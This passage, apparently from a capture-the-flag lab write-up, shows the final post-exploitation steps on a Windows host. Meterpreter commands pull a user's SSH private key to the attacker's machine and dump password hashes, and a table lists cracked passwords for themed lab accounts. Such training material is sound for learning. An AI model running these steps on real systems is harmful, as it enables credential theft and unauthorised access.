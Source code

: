 ### 🏁 **Final Steps: Capture the Flags**
1. **Navigate to the user's desktop**:
   ```bash
   dir c:\\Users\\SkipKiddie\\Desktop
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/764d17d9-5616-411c-8c56-468c2662039e" />

2. **Download the `id_rsa` file**:
   ```bash
   download c:\\Users\\SkipKiddie\\Desktop\\id_rsa /home/kali
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/d285da6c-3f1d-4372-ad70-d164d690ae7b" />

3. **Dump the password hashes**:
   ```bash
   hashdump
   ```
<img width="400" alt="image" src="https://github.com/user-attachments/assets/33c342c8-f059-4677-b56a-6d4ebfd35d00" />

### 🧩 **Passwords Cracked:**
| Username      | Password       |
|---------------|----------------|
| anakin        | yipp33!!       |
| artoo         | beep_b00p      |
| ben           | thats_no_moon  |
| boba          | mandalorian1   |
| chewbacca     | rwaaaaawr5     |
| c three pio   | pr0t0c0l       |
| darth vader   | d@rk_sid3      |
| greedo        | hanShotFirst!  |
| han solo      | sh00t-first    |
| jarjar        | mesah_p@ssw0rd |
| kylo ren      | daddy_issues1  |
| lando         | b@ckstab       |
| luke          | use_the_f0rce  |
| skipkiddie    | WhoopWhoop     |

---

✅ **End of Lab**: The assignment was successfully completed by gaining root access and capturing the flag.

